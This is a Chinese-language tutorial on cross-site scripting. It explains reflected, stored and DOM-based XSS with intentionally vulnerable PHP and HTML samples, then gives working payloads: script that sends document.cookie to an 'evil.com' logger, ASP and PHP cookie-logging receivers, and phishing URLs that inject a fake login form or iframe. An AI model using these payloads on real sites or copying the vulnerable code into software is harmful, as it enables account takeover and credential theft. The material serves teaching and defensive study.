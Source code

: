 # XSS 跨站脚本攻击

## XSS 简介

跨站脚本（Cross-Site Scripting，XSS）是一种经常出现在 Web 应用程序中的计算机安全漏洞，是由于 Web 应用程序对用户的输入过滤不足而产生的。攻击者利用网站漏洞把恶意的脚本代码注入到网页中，当其他用户浏览这些网页时，就会执行其中的恶意代码，对受害用户可能采取 Cookies 资料窃取、会话劫持、钓鱼欺骗等各种攻击。

### 反射型 XSS

反射型跨站脚本（Reflected Cross-Site Scripting）是最常见，也是使用最广的一种，可将恶意脚本附加到 URL 地址的参数中。

反射型 XSS 的利用一般是攻击者通过特定手法（如电子邮件），诱使用户去访问一个包含恶意代码的 URL，当受害者点击这些专门设计的链接的时候，恶意代码会直接在受害者主机上的浏览器执行。此类 XSS 通常出现在网站的搜索栏、用户登录口等地方，常用来窃取客户端 Cookies 或进行钓鱼欺骗。

服务器端代码：

```php
<?php 
// Is there any input? 
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) { 
    // Feedback for end user 
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>'; 
} 
?>
```

可以看到，代码直接引用了 `name` 参数，并没有做任何的过滤和检查，存在明显的XSS漏洞。

### 持久型 XSS

持久型跨站脚本（Persistent Cross-Site Scripting）也等同于存储型跨站脚本（Stored Cross-Site Scripting）。

此类 XSS 不需要用户单击特定 URL 就能执行跨站脚本，攻击者事先将恶意代码上传或储存到漏洞服务器中，只要受害者浏览包含此恶意代码的页面就会执行恶意代码。持久型 XSS 一般出现在网站留言、评论、博客日志等交互处，恶意脚本存储到客户端或者服务端的数据库中。

服务器端代码：

```php
<?php
  if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );
    // Sanitize message input
    $message = stripslashes( $message );
    $message = mysql_real_escape_string( $message );
    // Sanitize name input
    $name = mysql_real_escape_string( $name );
    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );
    //mysql_close(); }
?>
```

代码只对一些空白符、特殊符号、反斜杠进行了删除或转义，没有做XSS的过滤和检查，且存储在数据库中，明显存在存储型XSS漏洞。

### DOM XSS

传统的 XSS 漏洞一般出现在服务器端代码中，而 DOM-Based XSS 是基于 DOM 文档对象模型的一种漏洞，所以，受客户端浏览器的脚本代码所影响。客户端 JavaScript 可以访问浏览器的 DOM 文本对象模型，因此能够决定用于加载当前页面的 URL。换句话说，客户端的脚本程序可以通过 DOM 动态地检查和修改页面内容，它不依赖于服务器端的数据，而从客户端获得 DOM 中的数据（如从 URL 中提取数据）并在本地执行。另一方面，浏览器用户可以操纵DOM中的一些对象，例如URL、location等。用户在客户端输入的数据如果包含了恶意JavaScript脚本，而这些脚本没有经过适当的过滤和消毒，那么应用程序就可能受到基于DOM的XSS攻击。

HTML代码：

```html
<html>
  <head>
    <title>DOM-XSS test</title>
  </head>
  <body>
    <script>
      var a=document.URL;
      document.write(a.substring(a.indexOf("a=")+2,a.length));
    </script>
  </body>
</html>
```

将代码保存在 domXSS.html 中，浏览器访问：

```
http://127.0.0.1/domXSS.html?a=<script>alert('XSS')</script>
```

即可出发XSS漏洞。

## XSS 利用方式

### Cookies 窃取

攻击者可以使用以下代码获取客户端的 Cookies 信息：

```html
<script>
document.location="http://www.evil.com/cookie.asp?cookie="+document.cookie
new Image().src="http://www.evil.com/cookie.asp?cookie="+document.cookie
</script>
<img src="http://www.evil.com/cookie.asp?cookie="+document.cookie></img>
```

在远程服务器上，有一个接受和记录 Cookies 信息的文件，示例如下：

```asp
<%
  msg=Request.ServerVariables("QUERY_STRING")
  testfile=Server.MapPath("cookie.txt")
  set fs=server.CreateObject("Scripting.filesystemobject")
  set thisfile=fs.OpenTextFile(testfile,8,True,0)
  thisfile.Writeline(""&msg& "")
  thisfile.close
  set fs=nothing
%>
```

```php
<?php
$cookie = $_GET['cookie'];
$log = fopen("cookie.txt", "a");
fwrite($log, $cookie . "\n");
fclose($log);
?>
```

攻击者在获取到 Cookies 之后，通过修改本机浏览器的 Cookies，即可登录受害者的账户。

### 会话劫持

由于使用 Cookies 存在一定的安全缺陷，因此，开发者开始使用一些更为安全的认证方式，如 Session。在 Session 机制中，客户端和服务端通过标识符来识别用户身份和维持会话，但这个标识符也有被其他人利用的可能。会话劫持的本质是在攻击中带上了 Cookies 并发送到了服务端。

如某 CMS 的留言系统存在一个存储型XSS漏洞，攻击者把XSS代码写进留言信息中，当管理员登录后台并查看是，便会触发XSS漏洞，由于XSS是在后台触发的，所以攻击的对象是管理员，通过注入JavaScript代码，攻击者便可以劫持管理员会话执行某些操作，从而达到提升权限的目的。

比如，攻击者想利用XSS添加一个管理员账号，只需要通过之前的代码审计或其他方式，截取到添加管理员账号时的HTTP请求信息，然后使用XMLHTTP对象在后台发送一个HTTP请求即可，由于请求带上了被攻击者的Cookies，并一同发送到服务端，即可实现添加一个管理员账户的操作。

### 钓鱼

- 重定向钓鱼

  把当前页面重定向到一个钓鱼页面。

  ```
  http://www.bug.com/index.php?search="'><script>document.location.href="http://www.evil.com"</script>
  ```

- HTML注入式钓鱼

  使用XSS漏洞注入HTML或JavaScript代码到页面中。

  ```
  http://www.bug.com/index.php?search="'<html><head><title>login</title></head><body><div style="text-align:center;"><form Method="POST" Action="phishing.php" Name="form"><br /><br />Login:<br/><input name="login" /><br />Password:<br/><input name="Password" type="password" /><br/><br/><input name="Valid" value="Ok" type="submit" /><br/></form></div></body></html>
  ```

  该段代码会在正常页面中嵌入一个Form表单。

- iframe 钓鱼

  这种方式是通过 `<iframe>` 标签嵌入远程域的一个页面实施钓鱼。

  ```
  http://www.bug.com/index.php?search='><iframe src="http://www.evil.com" height="100%" width="100%"</iframe>
  ```

- Flash 钓鱼

  将构造好的Flash文件传入服务器，在目标网站用`<object>`或`<embed>`标签引用即可。

- 高级钓鱼技术

  注入代码劫持HTML表单、使用JavaScript编写键盘记录器等。

### 网页挂马

一般都是通过篡改网页的方式来实现的，如在XSS中使用`<iframe>`标签。

### DOS 与 DDOS

注入恶意JavaScript代码，可能会引起一些拒绝服务攻击。

### XSS 蠕虫

通过精心构造的XSS代码，可以实现非法转账、篡改信息、删除文章、自我复制等诸多功能。